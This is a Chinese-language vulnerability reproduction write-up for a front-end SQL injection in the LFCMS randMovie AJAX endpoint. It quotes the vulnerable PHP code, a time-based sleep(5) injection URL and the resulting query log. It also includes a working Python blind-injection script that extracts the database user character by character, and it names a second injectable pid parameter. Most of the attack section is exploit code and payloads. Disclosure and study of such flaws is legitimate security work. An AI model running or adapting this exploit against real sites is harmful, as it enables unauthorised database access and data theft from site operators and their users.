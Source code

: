 ### 一、漏洞简介 ###

### 二、漏洞影响 ###

### 三、复现过程 ###

漏洞起始点位于/Application/Home/Controller/AjaxController.class.php文件中的randMovie方法，代码如下
![](前台sql注入(二)/FwpPtNe9ksYqGHL.png)
第七行代码中调用了Ajax模型中的randMovie方法，同时limit和category是我们输入的可控的参数，跟进randMovie方法

    public function randMovie($limit=6,$category='') {
    if($category) {
    $type='and category='.$category;
    }
    $prefix=C('DB_PREFIX');
    $mlist=M()->query('SELECT * FROM `'.$prefix.'movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `'.$prefix.'movie`)-(SELECT MIN(id) FROM `'.$prefix.'movie`))+(SELECT MIN(id) FROM `'.$prefix.'movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx '.$type.' ORDER BY t1.id LIMIT '.$limit);
    foreach($mlist as $key=>$value) {
    $list[$key]=D('Tag')->movieChange($value,'movie');
    }
    return $list;
    }

在这里注意到$type与$limit在sql语句执行时均没有被单引号包裹，直接拼接到语句当中，这里就存在了sql注入的可能，首先我们在movie表里放一条数据，看一下正常执行时sql语句是如何执行的
![](前台sql注入(二)/l8EqK7Y4kmdeNCi.png)
查看数据库日志可以得到如下sql语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 ORDER BY t1.id LIMIT 1
接着来尝试下进行注入，测试链接如下

    http://lfcms.com/index.php/Ajax/randMovie?limit=1&category=2 and sleep(5)

页面确实延迟了5秒，那么接着看一下后端数据库的语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 and sleep(5) ORDER BY t1.id LIMIT 1

基本可以判断该处存在着可用的注入点，接下来编写脚本跑一下数据库用户名试试

    import requests
    url = 'http://lfcms.com/index.php/Ajax/randMovie?limit=1&category=2 and '
    s = requests.session()
    result = ""
    for i in range(1,50):
    print('==========================')
    for j in range(32,127):
    payload = "if((ascii(substr((select user()),{},1))={}),sleep(5),0)".format(i,j)
    temp = url+payload
    try:
    s.get(temp,timeout=5)
    except:
    result+= chr(j)
    print(result)
    break

![](前台sql注入(二)/VQSIWXDlLHmZu2A.png)

相同原理的利用点同样不止一个，如/Application/Home/Controller/PlayerController.class.php文件中的down方法调用了模型movie中的getPlayerUrl方法，该方法的pid参数同样可以注入

### 参考链接 ###
https://xz.aliyun.com/t/7844